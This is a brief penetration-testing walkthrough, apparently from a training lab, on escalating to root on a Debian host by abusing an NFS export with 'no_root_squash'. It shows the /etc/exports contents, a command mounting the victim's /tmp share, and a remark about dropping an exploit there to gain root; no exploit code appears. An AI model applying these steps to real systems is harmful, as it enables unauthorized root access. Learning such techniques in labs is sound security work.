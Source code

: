 
After gaining the initial foothold...

```
TCM@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)

TCM@debian:~$
```

In here, the `no_root_squash` means that we can mount this drive on the device.  We do that on our device by the following...

`sudo mount -t nfs -o rw,vers=2 10.10.255.6:/tmp /tmp/mountme`    - the IP will be whatever the victim ip is

Then you can create your exploit and put it into the shared folder and run it in order to get your root privileges.

